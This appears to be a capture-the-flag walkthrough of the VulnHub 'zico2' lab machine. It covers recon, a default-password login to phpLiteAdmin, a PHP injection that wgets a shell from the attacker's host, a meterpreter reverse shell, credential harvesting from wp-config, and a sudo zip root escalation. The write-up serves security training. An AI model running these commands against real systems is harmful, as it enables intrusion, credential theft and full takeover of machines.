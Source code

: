 +++
title = "zico2"
slug = "zico2"
[taxonomies]
categories=["vulnhub"]
tags=["vulnerable-machine"]
+++

# zico2

## Recon:

Start off with netdiscover to find the host:

```bash
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
 192.168.171.135 00:0c:29:a2:b5:1b      2     120  VMware, Inc.
 192.168.171.254 00:50:56:e5:61:61      3     180  VMware, Inc.
```

Next run nmap and find ports 22, 80, 111 open.

Time to run gobuster using wordlists generated from dirbuster and seclists:

```bash
screen -S gobuster go run ~/go/src/gobuster -w wordlistzico.txt -u http://192.168.171.135

// (Status: 200)
//js/ (Status: 200)
//css/ (Status: 200)
//?q=user/register/ (Status: 200)
//?q=user/login/ (Status: 200)
//?q=search/ (Status: 200)
//?q=user/password/ (Status: 200)
//?q=comment/reply/ (Status: 200)
//?q=node/add/ (Status: 200)
//?q=admin/ (Status: 200)
//index (Status: 200)
//img/ (Status: 200)
//?q=user/logout/ (Status: 200)
//?q=filter/tips/ (Status: 200)
//?level=12 (Status: 200)
//? (Status: 200)
/?&what= (Status: 200)
//?q=contact/ (Status: 200)
//?q=logout/ (Status: 200)
//?q=* (Status: 200)
//?msk (Status: 200)
//?favorites (Status: 200)
//?* (Status: 200)
//view.php (Status: 200)
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/tools (Status: 200)
/index (Status: 200)
/view (Status: 200)
/dbadmin (Status: 301)
/vendor (Status: 301)
/package (Status: 200)
/LICENSE (Status: 200)
/img (Status: 301)
/index (Status: 200)
/package (Status: 200)
/view (Status: 200)
/tools (Status: 200)
```

The dbadmin loads up a sql web admin, try admin as the pass and login successfully.

Now to lookup this version of phpliteadmin, 1.9.3

```bash
searchsploit phpliteadmin

PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | exploits/php/webapps/24044.txt
```

Looks like it worked after following steps from the exploit description and we have a way to get a reverse shell going.

Now to generate a PHP meterpreter script:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
```

Now to get a shell onto the box by adding a malicious DB column:

```php
<?php system("wget http://192.168.171.136:8000/shell.php -O /usr/databases/shell.php");?>
```

Now get meterpreter running:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.171.136
set LPORT 4444
exploit
```

Then hit the page in the browser.

After some grepping I found a WordPress install, check the config for user/passwords:

```bash

cat /home/zico/wordpress/wp-config | grep -i 'user' && cat /home/zico/wordpress | grep -i 'pass'

```

Try SSHing with the user/pass and succeed, next run LinEnum and linuxprivchecker.py, but none of the exploits reported seem to work, after a lot of head baning, check out the allowed/banned sudo commands this user has:

```bash
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-comand="sh -c /bin/bash"

```

Get flag:

```bash

root@zico:~# cd /root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#

```
